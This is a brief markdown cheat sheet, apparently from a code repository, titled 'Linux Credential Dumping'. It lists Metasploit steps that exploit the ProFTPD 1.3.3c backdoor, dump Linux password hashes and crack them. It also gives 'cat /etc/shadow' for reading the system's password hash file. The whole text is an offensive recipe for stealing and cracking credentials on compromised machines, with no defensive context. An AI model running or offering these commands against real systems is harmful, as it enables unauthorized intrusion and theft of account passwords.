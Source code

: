 # Linux Credential Dumping
```bash
/etc/init.d/postgresql start
exploit/unix/ftp/proftpd_133c_backdoor
post/linux/gather/hashdump
auxiliary/analyze/crack_linux
```
# Dumping & Cracking Hashes

```bash
cat /etc/shadow

msf> use post/linux/gather/hashdump
```